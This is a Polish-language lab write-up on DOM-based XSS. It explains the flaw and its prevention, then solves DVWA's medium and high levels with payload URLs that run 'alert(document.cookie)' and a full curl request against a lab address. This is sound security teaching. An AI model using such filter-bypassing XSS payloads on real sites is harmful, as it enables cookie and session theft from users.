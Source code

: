 # DOM-based XSS
## Opis techniki
<blockquote>
DOM-based Cross-Site Scripting (XSS) to podatność, w której skrypt po stronie klienta aplikacji internetowej zapisuje dane dostarczone przez użytkownika do Document Object Model (DOM). Przeglądarka przetwarza następnie te dane jako HTML lub JavaScript, co pozwala atakującemu na uruchomienie kodu w przeglądarce ofiary. W przeciwieństwie do odbitego lub przechowywanego XSS, gdzie payload ataku jest osadzony w odpowiedzi serwera, w tym wypadku payload jest często przechowywany w samym DOM i wykonywany, gdy dane są z niego odczytywane.
  
Oto kilka kluczowych cech i zagrożeń związanych z DOM-based XSS:
* Manipulacja modelu obiektu dokumentu (DOM): DOM-Based XSS występuje, gdy skrypt po stronie klienta, a nie serwera, nieprawidłowo manipuluje danymi wejściowymi użytkownika wewnątrz modelu obiektu dokumentu (DOM) przeglądarki. Atakujący może wprowadzić złośliwe skrypty, które są następnie wykonywane w przeglądarce użytkownika.
* Brak bezpośredniej interakcji z serwerem: W przeciwieństwie do Reflected XSS i Stored XSS, złośliwy skrypt w DOM-Based XSS nie jest odbijany ani przechowywany na serwerze. Zamiast tego, skrypt jest przechowywany i wykonywany wewnątrz DOM przeglądarki klienta. Oznacza to, że atak może być trudniejszy do wykrycia i zablokowania, ponieważ nie ma bezpośredniej interakcji z serwerem.
* Zagrożenie dla bezpieczeństwa klienta: DOM-Based XSS może prowadzić m.in. do kradzieży wrażliwych danych, takich jak ciasteczka sesji, które mogą umożliwić atakującemu przejęcie sesji użytkownika. 
* Zależność od konkretnych funkcji JavaScript: Ataki DOM-Based XSS zależą od konkretnych funkcji JavaScript i ich niewłaściwego użycia, takich jak document.write() lub .innerHTML. Jeżeli deweloperzy nie są świadomi bezpiecznego stosowania tych funkcji, może to prowadzić do podatności na DOM-Based XSS.
</blockquote>

## Zapobieganie
<blockquote>
Najskuteczniejszym sposobem na usunięcie podatności DOM-Based XSS jest prawidłowe zarządzanie danymi zapisywanymi do DOM. Tam, gdzie to możliwe należy używać kontekstowo bezpiecznych metod takich jak .textContent lub .innerText zamiast .innerHTML. Inną strategią jest używanie frameworków lub bibliotek, które zapewniają bezpieczny sposób manipulacji DOM. 
</blockquote>

## DVWA labs
- [DVWA DOM-based XSS #2 - Medium](#dvwa-DOM-XSS-1---medium)

- [DVWA DOM-based XSS #3 - High](#dvwa-DOM-XSS-2---high)

<br/>

## DVWA DOM-based XSS #1 - Medium
Na średnim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Filtrowanie ciągu znaków `<script` 

#### Kod źródłowy strony `PHP`
```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}
?> 
```

#### Payload
Podatny endpoint: `http://10.10.86.211/vulnerabilities/xss_d/`<br/>
URL: `http://10.10.86.211/vulnerabilities/xss_d/?default=</select><img src onerror=alert(document.cookie)>`

#### Komenda curl - [Wzór zapytania]

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: 10.10.86.211' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=h8epn0r4eklimae4dds6k51vk3; security=medium' $'http://10.10.86.211/vulnerabilities/xss_d/?default=%3C/select%3E%3Cimg%20src%20onerror=alert(document.cookie)%3E'
```

#### Efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/XSS_DOM_med.png "Po wykonaniu odpowiedniego zapytania następuje wykonanie kodu i ujawnienie cookies użytkownika.")

Do obejścia zabezpieczenia wykorzystano . Po wykonaniu odpowiedniego zapytania następuje wykonanie kodu i ujawnienie cookies użytkownika.

<br/>
<br/>

## DVWA DOM-based XSS #2 - High
Na trudnym poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Zaimplementowana została whitelista dozwolonych wartości parametru "default" w zapytaniu GET

#### Kod źródłowy strony `PHP`
```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
?> 
```

#### Payload
Podatny endpoint: `http://10.10.86.211/vulnerabilities/xss_d/`<br/>
URL: `http://10.10.86.211/vulnerabilities/xss_d/#?default=</select><img src onerror=alert(document.cookie)>`

#### Komenda curl - [Wzór zapytania]
W tym wypadku zapytanie musi zostać zrealizowane z poziomu przeglądarki - w samym zapytaniu nie ma śladów payload'u przez fakt, że użyto "#" w adresie URL.

#### Efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/XSS_DOM_high.png "Po wykonaniu odpowiedniego zapytania następuje wykonanie kodu i ujawnienie cookies użytkownika.")

<br/>

Do obejścia zabezpieczenia wykorzystano fakt, że payload można przemycić w zapytaniu bez jego interpretacji jako parametr "default". Po wykonaniu odpowiedniego zapytania następuje wykonanie kodu i ujawnienie cookies użytkownika.
